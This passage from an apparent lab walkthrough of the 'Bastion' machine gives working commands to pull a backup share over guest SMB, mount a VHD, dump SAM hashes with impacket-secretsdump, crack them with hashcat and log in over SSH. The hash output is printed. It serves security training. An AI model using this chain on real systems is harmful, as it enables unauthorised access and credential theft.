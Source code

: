 ```
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml     An     7110  Fri Feb 22 13:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml     An  2374620  Fri Feb 22 13:45:32 2019
```

Let's exfiltrate whole share to dig deeper locally. As this share contains a lot of data this process might take couple of minutes.
```
smbclient -U guest% \\\\$TARGET_IP\\Backups --option="client min protocol=SMB2" -c "recurse ON; prompt OFF; mget *"
```

Having `.vhd` file locally we could mount it on our attack machine.
```
sudo mkdir /mnt/bastion && \
sudo guestmount -a "./WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd" -i --ro /mnt/bastion
```

After mounting backup volume we can start browsing it's content. As we have full unrestriced access to all files we could try to loot NTLM hashes stored in SAM file (sudo needed to access mounted volume).
```
sudo impacket-secretsdump -sam /mnt/bastion/Windows/System32/config/SAM -system /mnt/bastion/Windows/System32/config/SYSTEM LOCAL -outputfile bastion
```
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```

Let's use `hashcat` to perform dictionary attack against those NTLM hashes.
```
hashcat -m 1000 -a 0 bastion.sam /usr/share/wordlists/rockyou.txt --quiet
```
```
31d6cfe0d16ae931b73c59d7e0c089c0:
26112010952d963c8dc4217daec986d9:************
```

We were able to brake hashes for `Guest` (empty password) and `L4mpje` users. Our `nmap` scan showed that target is running SSH server, let's try to login using discovered credentials.
```
ssh L4mpje@$TARGET_IP
L4mpje@10.129.82.228's password:

Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

l4mpje@BASTION C:\Users\L4mpje>
```
